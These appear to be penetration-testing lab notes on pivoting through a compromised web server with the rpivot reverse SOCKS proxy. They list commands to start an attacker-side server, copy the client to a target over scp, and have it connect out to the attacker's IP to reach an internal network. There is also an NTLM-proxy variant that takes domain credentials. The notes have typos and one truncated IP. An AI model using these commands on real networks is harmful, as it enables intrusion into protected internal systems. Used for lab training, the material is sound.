 # Web srver pivoting with rpivot

Reverse SOCKS proxy tool.
Rpivot binds a machine inside a corporate network to an exxternal server and exposes the client's local port on the server side.

![alt text](image-5.png)

1. Download 
sudo git clone https://github.com/klsecservices/rpivot.git
2. Install Python2.7
   sudo apt-get install python2.7
3. Run the server on the attacker machine 
   python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.
4. transfer the rpivot client to the target machine 
   scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
5. run client.py from the pivot target 
   ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
6. we also need to configure the proxy chains 
7. Finally, we should be able to access the webserver on our server-side, which is hosted on the internal network of 172.16.5.0/23 at 172.16.5.135:80 using proxychains and Firefox.
   proxychains firefox-esr 172.16.5.135:80


## HTTP-proxy with NTLM authentication
1. python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>


## Lab 

1. Install rpivot
2. Install python2 
3. run rpivot
/python ../../rpivot/server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
4. upload the file 
5. scp client.py ubuntu@10.129.125.152:/home/ubuntu/client.py
